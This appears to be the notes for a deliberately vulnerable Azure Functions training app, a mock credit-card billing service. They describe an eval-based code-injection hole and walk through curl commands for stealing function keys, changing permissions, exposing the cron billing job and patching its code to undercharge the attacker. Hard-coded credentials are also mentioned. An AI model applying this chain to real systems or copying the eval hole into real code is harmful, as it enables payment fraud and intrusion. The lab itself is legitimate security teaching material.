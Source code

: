 Setup notes

- After deploying the .js files and package.json file for each function, you'll need to go into the scm console <appname.scm.azurewebsites.net/DebugConsole>, go into the home/site/wwwroot/<functionName> directory and run `npm install`.  It'll take a long time.

- Sometimes calls to the API just seem to fail.  Can't reproduce locally.  Not sure, just try again.

- I've included all sorts of creds directly in source out of ~~laziness~~expediency.

- Running the below steps will leave the app in the broken state.  I haven't yet written easy scripts to reset things to 'beginning' state:
  * Billing needs function.json.bkup copied back over function.json
  * TotalView and Billing need their original creds (d:\home\data\Functions\secrets)
  * ?? (haven't fully tested)

-----------------------------------
Concept

Layout for the vulnerable app.

Maybe delivered with serverless?

Concept:
* This is a webapp to consolidate credit card payments.  
* Payments aggregate over the month, and at the end of the month a scheduled function sends a single bill out, thus avoiding additional credit card fees.

Endpoints / functions:
* Check my balance:
  * API endpoint
  * In:
    * The 'semi-public' key for the function
    * Their card number in json format {cardNumber: <cardnum>} which is eval'd
  * Returns: dates and amounts of purchases
  * This is the vulnerable endpoint
* Check what will be paid at the end of the month:
  * API endpoint
  * Requires master (or 'more secret') key to use
  * Returns dict of card #s to payments processed
* Billing function:
  * Cron for once monthly
  * Per customer, sums costs and then sends the bill out
  * Marks as billed? (allowing spoofing)
* API endpoint for writing charges? (not implemented yet, maybe unneccesary)
  * Change code to not accept your credit card?

Exploitation path:
* Discover arbitrary code execution in initial API endpoint:
  * Since path is read-only, we're not too worried about breaking things
  * exploit is just eval'ing some JSON to make things super simple
  * Information gained:
    * Master key / secure key (encrypted, haven't dug into how to decrypt)
    * List of other functions (we didn't know about the other ones)
    * General access
* Dump sources of other functions as wanted
* Take key
  * Use to trigger the general 'card info' function
* Modify billing function:
  * Change it from cron to API
  * Trigger billing at arbitrary times
  * Change source of billing function to only bill me $1
* Change source of 'charge writing' API to not accept my card (or someone else's?) (if fn exists)

SQL schema:
* Cards: ID, card#, API key
* Purchases: ID, CardID, Time, $amount

----------------------------

Routes: (plug the relevant keys in for your own? functions app)

vuln_api: takes your credit card #, returns just your charges.
`curl -X POST -d @benign.json -K vuln.config`
example: [{"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"amount":5.99,"date":"2017-06-17T00:00:00Z"}]

totalView: Doesn't take any arguments.  Returns the list of all charges.
`curl -X POST -d '{}' -K total.config`
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

billing: Sums up the cards to do the billing.  Can't be triggered via API, is triggered via cron.

Vulns: ===================================

`curl -X POST -d @print_return.json -K vuln.config`
example: "custom text"

List available functions with secret sets via list_functions:

`curl -X POST -d @list_functions.json -K vuln.config`
example: ["billing.json","host.json","httptriggerjs2.json","manualtriggerjs1.json","publicvuln.json","timertriggerjs1.json","totalview.json","totalview.json.bkup","totalview.json.orig"]

Try to run totalview:

`curl -X POST -d '{}' -K total_noauth.config`
example: this doesn't work because we don't have the key!

Change permissions on totalview: (they keys on disk are encrypted, but they're all encrypted against the same key, so we can just copy in our known working one!)

`curl -X POST -d @change_totalview_perms.json -K vuln.config`
example: "done"

After changing perms, run totalView again:

`curl -X POST -d '{}' -K total_noauth.config`
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

Now what's Billing - let's read its function metadata:

`curl -X POST -d @read_billing_info.json -K vuln.config`
example: "{\r\n  \"bindings\": [\r\n    {\r\n      \"name\": \"myTimer\",\r\n      \"type\": \"timerTrigger\",\r\n      \"direction\": \"in\",\r\n      \"schedule\": \"0 0 0 1 * *\"\r\n    }\r\n  ],\r\n  \"disabled\": false\r\n}"

We can't call it by API since it's a cron job.  Let's change it to being API-able:

`curl -X POST -d @change_billing_to_api.json -K vuln.config`

Now change the permissions to use our known key like above:

`curl -X POST -d @change_billing_perms.json -K vuln.config`

Now we can query it via API:

`curl -X POST -d @benign.json -K billing.config`
example: [{"1234-5678-9012-3456":30.98},{"0000-0000-0000-0000":37.99}]

But we don't want to be billed, right?  Let's see how billing works by dumping the source:

`curl -X POST -d @read_billing_source.json -K vuln.config`
example: <bunch of js source>

Now let's put in something for our card:

`curl -X POST -d @patch_billing_code.json -K vuln.config`
example: "done"

And when we query billing again:

`curl -X POST -d @benign.json -K billing.config`
example: {"1234-5678-9012-3456":1,"0000-0000-0000-0000":37.99}


TODO:

- make it cooler by making vuln_api use an sql user that doesn't have creds to just do the further queries by itself (so we have to gain access to totalView)
